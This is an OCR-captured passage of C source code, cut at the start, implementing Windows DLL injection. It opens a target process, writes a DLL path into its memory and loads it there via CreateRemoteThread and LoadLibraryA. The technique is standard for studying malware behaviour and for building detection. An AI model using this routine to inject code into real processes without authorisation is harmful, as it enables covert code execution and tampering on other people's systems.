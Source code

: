 ``` c
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		printf("[-] Error: Could not open process for PID (%d).\n", dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		printf("[-] Error: Could not allocate memory inside PID (%d).\n", dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (LPCVOID)strDLLPath, dwSize, NULL);
	if (n == 0)
	{
		printf("[-] Error: Could not write any bytes into the PID [%d] address space.\n", dwProcessId);
		return(1);
	}



	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("Kernel32"), "LoadLibraryA");
	if (pfnThreadRtn == NULL)
	{
		printf("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n");
		return(1);
	}

	// Create a remote thread that calls LoadLibraryA(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		printf("[-] Error: Could not create the Remote Thread.\n");
		DWORD err = GetLastError();
		return(1);
	}
	else
		printf("[+] Success: DLL injected via CreateRemoteThread().\n");

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}

```